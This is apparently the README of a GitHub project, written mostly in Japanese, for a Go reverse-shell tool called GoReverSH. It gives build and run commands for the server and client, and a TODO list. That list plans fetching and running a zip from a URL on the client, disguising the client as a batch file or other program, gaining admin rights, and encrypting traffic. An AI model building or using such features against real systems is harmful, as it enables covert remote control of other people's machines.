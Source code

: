 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

This is Golang ReverseShell

# other 
en@ble@ny

# 詳細

# 使い方
configにホストとポート指定

## IOS
make build
## Windows
make build_win

## Server
./goreversh_server
## Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## 未実装
### Test
TestWaitNotice
TestClist
Cert

### 関数
get hostname
get currentuser


## TODO
[ ]makefile
変数　ビルドファイル名など

[ ]ReadMe

[ ]color

[ ]clean
    ファイル全削除


[ ]upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

[ ]upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


[ ]ダウンロード
    サイズ、パーミッション

[ ]出力ディレクトリ変更コマンド


[ ]別プログラムに偽装　バッチファイルなど
管理権限


[ ]暗号化
TLS -> AES共通鍵


[ ]クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


[ ]ロゴとアスキーアート


## その他
ゴルーチンリークを注意

build op make　でmainの変数に代入

操作ログを残す
logfile
出力をsetOutputで書き出し


ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある